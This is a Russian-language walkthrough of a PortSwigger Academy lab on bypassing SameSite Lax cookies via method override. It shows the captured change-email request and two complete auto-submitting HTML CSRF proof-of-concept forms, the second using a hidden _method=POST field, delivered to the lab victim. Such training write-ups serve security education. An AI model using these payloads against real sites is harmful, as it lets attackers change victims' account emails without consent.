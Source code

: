 Залогинимся под `wiener:peter`

Включим `proxy` -> `intercept` -> `intercept is on`

и сменим почтвый ящик на `change@me.com`

отправим данный запрос в `Repeater`, а сам запрос дропнем
```
POST /my-account/change-email HTTP/2
...
email=change%40me.com
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/7.%20SameSite%20Lax%20bypass%20via%20method%20override/pics%20for%20walkthrough/1.png)

Теперь отправимся в `Repeater` и все таки отправим данный запрос

нажмем на запрос `ПКМ` -> `Engagement tools` -> `Generate CSRF PoC `
и в `options` обязательно выберем галку `include auto-submit script`


и получим следующий PoC
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aac0020040d8662841b4a1d00e100d7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change&#64;me&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/7.%20SameSite%20Lax%20bypass%20via%20method%20override/pics%20for%20walkthrough/2.png)

Изменим PoC, чтобы он отправлял `GET` запрос как основной, но внутри прокинем `POST` запрос с нашим намерением изменить почту
добавив строку
```
<input type="hidden" name="_method" value="POST">
```
В итоге получив следующий PoC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aac0020040d8662841b4a1d00e100d7.web-security-academy.net/my-account/change-email" method="GET">
	<input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="change2&#64;me&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Перейдем в `exploit server`, нажмем `store` и `Deliver exploit to victim` и получим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/7.%20SameSite%20Lax%20bypass%20via%20method%20override/pics%20for%20walkthrough/3.png)
